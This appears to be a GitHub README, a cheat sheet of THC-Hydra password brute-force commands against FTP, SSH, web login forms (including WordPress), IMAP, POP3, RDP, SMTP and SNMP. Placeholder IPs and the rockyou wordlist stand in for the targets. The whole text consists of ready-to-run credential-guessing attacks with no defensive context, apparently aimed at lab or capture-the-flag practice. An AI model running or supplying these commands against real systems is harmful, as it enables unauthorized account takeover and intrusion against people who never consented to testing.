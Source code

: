 # Hydra-CMD-List
Hydra Command List by me
Hydra:
=======================================
hydra -l user -P passlist.txt ftp://MACHINE_IP

 SSH : hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh

Post Web Form
=============
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V


Brute force SSH
=============
⇒ hydra -s 22 -v -q -L user.txt -P /usr/share/wordlists/rockyou.txt -e nsr -t 4 -w 5 10.10.10.10 ssh -V

⇒ hydra -l root -p admin 10.10.10.10 -t 4 ssh

Brute force HTTP POST Form
=======================
⇒ WordPress example:
hydra -l user1 -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&redirect_to=http%3A%2F%2F10.10.10.10%2Fwp-admin%2F&testcookie=1:F=ERROR"

⇒ hydra -l user1 -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/simple/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=incorrect"

⇒ hydra -l user1 -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

Brute Force FTP
=============
⇒ hydra -l user -P passlist.txt ftp://10.10.10.10

Brute Force IMAP
==============
⇒ hydra -L userlist.txt -p defaultpw imap://10.10.10.10/PLAIN

Brute Force POP3
==============
⇒ hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5

Brute Force RDP
=============
⇒ hydra rdp://10.10.10.10/firstdomainname -l john -p doe

Brute Force SMTP
==============
hydra smtp-enum://10.10.10.10/vrfy -l john -p localhost

Brute Force SNMP
==============
⇒ hydra -L user.txt -P pass.txt -m 3:SHA:AES:READ 10.10.10.10 snmp (SNMP v3)
⇒ hydra -P pass.txt -m 2 10.10.10.10 snmp (SNMP v2)

